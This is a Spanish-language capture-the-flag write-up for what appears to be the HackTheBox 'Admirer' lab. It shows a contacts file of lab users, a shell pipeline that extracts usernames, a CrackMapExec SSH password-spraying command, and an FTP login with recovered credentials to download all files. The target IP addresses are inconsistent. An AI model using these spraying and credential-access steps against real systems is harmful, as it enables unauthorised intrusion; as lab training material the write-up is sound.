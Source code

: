 Y con contacts.txt:
```python
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

Con esta informacion pasamos al siguiente paso.


---

# Exploitation

A continuación, podemos extraer los usuarios a los nombres de usuario (agregando raíz), y guardar las contraseñas en passwords, e intentar un rociado de contraseñas contra SSH usando CrackMapExec.
Extraemos los usuarios asi:
```python
cat *.txt | grep @ | sed 's/Email: //' | awk -F"@" '{print $1}' > usernames  
```
Luego intentaríamos hacer ssh de esta manera (viene en la documentación pero no me funciono)
```python
crackmapexec ssh 10.10.10.187 -u usernames -p passwords
```

Como en el archivo de credentials.txt hemos obtenido un usuario y contraseña de ftp probaremos con ello:
```python
ftp 10.129.8.174
```
Como hemos obtenido acceso, listamos los archivos que hay con ==ls== y despues haremos un ==get== seguido del nombre del archivo, o un mget * para obtener todos los archivos. Cerramos con un quit.
